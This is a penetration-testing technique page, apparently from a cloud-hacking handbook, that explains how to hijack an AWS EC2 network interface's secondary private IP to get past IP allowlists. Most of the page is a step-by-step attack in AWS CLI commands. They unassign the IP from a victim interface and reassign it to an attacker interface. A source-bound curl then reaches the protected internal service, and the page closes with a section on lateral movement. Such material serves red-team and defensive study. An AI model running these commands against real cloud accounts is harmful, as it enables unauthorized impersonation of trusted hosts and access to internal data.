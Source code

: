 # AWS – EC2 ENI Secondary Private IP Hijack (Trust/Allowlist Bypass)

Abuse `ec2:UnassignPrivateIpAddresses` and `ec2:AssignPrivateIpAddresses` to steal a victim ENI’s secondary private IP and move it to an attacker ENI in the same subnet/AZ. Many internal services and security groups gate access by specific private IPs. By moving that secondary address, the attacker impersonates the trusted host at L3 and can reach allowlisted services.

Prereqs:
- Permissions: `ec2:DescribeNetworkInterfaces`, `ec2:UnassignPrivateIpAddresses` on the victim ENI ARN, and `ec2:AssignPrivateIpAddresses` on the attacker ENI ARN.
- Both ENIs must be in the same subnet/AZ. The target address must be a secondary IP (primary cannot be unassigned).

Variables:
- REGION=us-east-1
- VICTIM_ENI=<eni-xxxxxxxx>
- ATTACKER_ENI=<eni-yyyyyyyy>
- PROTECTED_SG=<sg-protected>   # SG on a target service that allows only $HIJACK_IP
- PROTECTED_HOST=<private-dns-or-ip-of-protected-service>

Steps:
1) Pick a secondary IP from the victim ENI
```bash
aws ec2 describe-network-interfaces --network-interface-ids $VICTIM_ENI --region $REGION   --query NetworkInterfaces[0].PrivateIpAddresses[?Primary==`false`].PrivateIpAddress --output text | head -n1 | tee HIJACK_IP
export HIJACK_IP=$(cat HIJACK_IP)
```

2) Ensure the protected host allows only that IP (idempotent). If using SG-to-SG rules instead, skip.
```bash
aws ec2 authorize-security-group-ingress --group-id $PROTECTED_SG --protocol tcp --port 80   --cidr "$HIJACK_IP/32" --region $REGION || true
```

3) Baseline: from attacker instance, request to PROTECTED_HOST should fail without spoofed source (e.g., over SSM/SSH)
```bash
curl -sS --max-time 3 http://$PROTECTED_HOST || true
```

4) Unassign the secondary IP from the victim ENI
```bash
aws ec2 unassign-private-ip-addresses --network-interface-id $VICTIM_ENI   --private-ip-addresses $HIJACK_IP --region $REGION
```

5) Assign the same IP to the attacker ENI (on AWS CLI v1 add `--allow-reassignment`)
```bash
aws ec2 assign-private-ip-addresses --network-interface-id $ATTACKER_ENI   --private-ip-addresses $HIJACK_IP --region $REGION
```

6) Verify ownership moved
```bash
aws ec2 describe-network-interfaces --network-interface-ids $ATTACKER_ENI --region $REGION   --query NetworkInterfaces[0].PrivateIpAddresses[].PrivateIpAddress --output text | grep -w $HIJACK_IP
```

7) From the attacker instance, source-bind to the hijacked IP to reach the protected host (ensure the IP is configured on the OS; if not, add it with `ip addr add $HIJACK_IP/<mask> dev eth0`)
```bash
curl --interface $HIJACK_IP -sS http://$PROTECTED_HOST -o /tmp/poc.out && head -c 80 /tmp/poc.out
```

## Impact
- Bypass IP allowlists and impersonate trusted hosts within the VPC by moving secondary private IPs between ENIs in the same subnet/AZ.
- Reach internal services that gate access by specific source IPs, enabling lateral movement and data access.

